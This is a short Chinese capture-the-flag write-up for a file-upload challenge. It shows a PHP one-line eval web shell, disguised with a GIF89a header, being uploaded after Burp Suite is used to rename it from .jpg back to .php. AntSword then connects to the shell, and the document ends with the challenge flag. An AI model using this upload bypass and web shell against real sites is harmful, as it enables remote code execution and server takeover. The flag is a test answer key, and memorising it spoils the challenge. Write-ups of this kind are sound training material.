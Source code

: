 ## upload1

文件上传的题

直接上传php马 存在报错 ”请上传图片“

----

### Brupsuit 绕过
shell.php 修改后缀名 为 shell.jpg 点上传 Brupsuit 抓包
```http request
POST /index.php HTTP/1.1
Host: 61.147.171.105:50756
Content-Length: 216
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:50756
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY5H4NyVTt0LrOelc
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:50756/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryY5H4NyVTt0LrOelc
Content-Disposition: form-data; name="upfile"; filename="shell.jpg"
Content-Type: image/jpeg

GIF89a
<?=eval($_POST['x']);?>
------WebKitFormBoundaryY5H4NyVTt0LrOelc--
```
修改 filename = "shell.php" 后 forward

上传成功
---
### antsword 连接
![img.png](imgs/jpg_php.png)
可以看到 成功上传的php文件
![img.png](imgs/img.png)

---
### flag
$flag="cyberpeace{323a5ab98f676bc4d403f717d7a0662c}";
